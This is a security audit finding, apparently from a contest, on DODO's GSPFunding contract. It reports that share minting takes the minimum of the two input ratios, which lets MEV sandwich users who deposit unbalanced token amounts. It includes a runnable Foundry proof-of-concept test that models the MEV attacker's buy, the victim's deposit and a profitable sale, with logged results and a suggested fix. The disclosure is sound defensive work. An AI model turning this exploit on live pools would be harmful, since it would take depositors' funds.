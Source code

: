 Harsh Tangerine Ram

high

# GSPFunding contract can be sandwiched by MEV to steal funds

## Summary

Due to share allocation problem, the GSPFunding contract can be sandwiched by MEV to steal users's funds if victim buy shares with base token much more than quote token.


## Vulnerability Detail

When users buy shares in normal case after the first buy shares, the share allocation is showed below:

```solidity
    else if (baseReserve > 0 && quoteReserve > 0) {
        // case 2. normal case
        uint256 baseInputRatio = DecimalMath.divFloor(baseInput, baseReserve);
        uint256 quoteInputRatio = DecimalMath.divFloor(quoteInput, quoteReserve);
        uint256 mintRatio = quoteInputRatio < baseInputRatio ? quoteInputRatio : baseInputRatio;
        // The shares will be minted to user
        shares = DecimalMath.mulFloor(totalSupply, mintRatio);

        // The target will be updated
        _BASE_TARGET_ = uint112(uint256(_BASE_TARGET_) + (DecimalMath.mulFloor(uint256(_BASE_TARGET_), mintRatio)));
        _QUOTE_TARGET_ = uint112(uint256(_QUOTE_TARGET_) + (DecimalMath.mulFloor(uint256(_QUOTE_TARGET_), mintRatio)));
    }
    // The shares will be minted to user
    // The reserve will be updated
    _mint(to, shares);
```

It uses the lesser of quoteInputRatio and baseInputRatio. So if the quoteInputRatio is less than baseInputRatio, the mintRatio will be quoteInputRatio. The mintRatio is used to calculate the shares to be minted to user and the target to be updated. In case some users transfer to GSP with base token much more quote token, the users get less shares than he should, MEV can monitor the `buyShares` tx, once the tx satisfy the conditions, the users can be sandwiched by malicious MEV to steal funds.

Runnable PoC shows below, inserting the case to `test/GSPFunding.t.sol`:

```solidity
function test_buyShares_mev() public {
    vm.startPrank(USER);
    dai.transfer(address(gsp), BASE_RESERVE);
    usdc.transfer(address(gsp), QUOTE_RESERVE);
    assertEq(gsp.totalSupply(), 0);
    gsp.buyShares(USER);
    assertTrue(gsp._BASE_RESERVE_() == BASE_RESERVE);
    assertTrue(gsp._QUOTE_RESERVE_() == QUOTE_RESERVE);
    assertGt(gsp.totalSupply(), 0);
    vm.stopPrank();

    // 1. mev buy shares with BASE_INPUT and QUOTE_INPUT
    address mev = vm.addr(0x1111);
    vm.startPrank(mev);
    deal(DAI, mev, BASE_INPUT);
    deal(USDC, mev, QUOTE_INPUT);
    dai.transfer(address(gsp), BASE_INPUT);
    usdc.transfer(address(gsp), QUOTE_INPUT);
    (uint256 shares_01,,) = gsp.buyShares(mev);
    console.log("shares_01: %s", shares_01);
    vm.stopPrank();

    // 2. victim buy shares with many base token and little quote token
    address victim = vm.addr(0x1234);
    vm.startPrank(victim);
    deal(DAI, victim, 10000 * 1e18);
    uint256 victim_usdc = 1 * 1e6;
    deal(USDC, victim, 10000 * 1e6);
    dai.transfer(address(gsp), 10000 * 1e18);
    usdc.transfer(address(gsp), victim_usdc);
    (uint256 shares_02, , ) = gsp.buyShares(victim);
    console.log("shares_02: %s", shares_02);
    vm.stopPrank();
    assertGt(shares_01, shares_02);

    // 4. mev get profit after he sell all his shares
    vm.startPrank(mev);
    gsp.sellShares(shares_01, mev, 0, 0, "", block.timestamp);
    uint256 dai_profit = (dai.balanceOf(mev) - BASE_INPUT) / 1e18;
    uint256 usdc_profit = (QUOTE_INPUT - usdc.balanceOf(mev)) / 1e6;
    uint256 total_profit = dai_profit - usdc_profit;
    assertGt(total_profit, 0);
    console.log("total profit: ", total_profit);
    vm.stopPrank();
}
```

Results:
```ts
[PASS] test_buyShares_mev() (gas: 933616)
Logs:
  shares_01: 1000000000000000000
  shares_02: 916666666666666663
  total profit:  839
```

## Impact

Innocent users can be sandwiched by MEV to steal funds.

## Code Snippet

https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L67-L71

## Tool used

vscode, Manual Review

## Recommendation

Change the shares allocation algorithm, one solution is get the average of quoteInputRatio and baseInputRatio to decide the shares to be minted.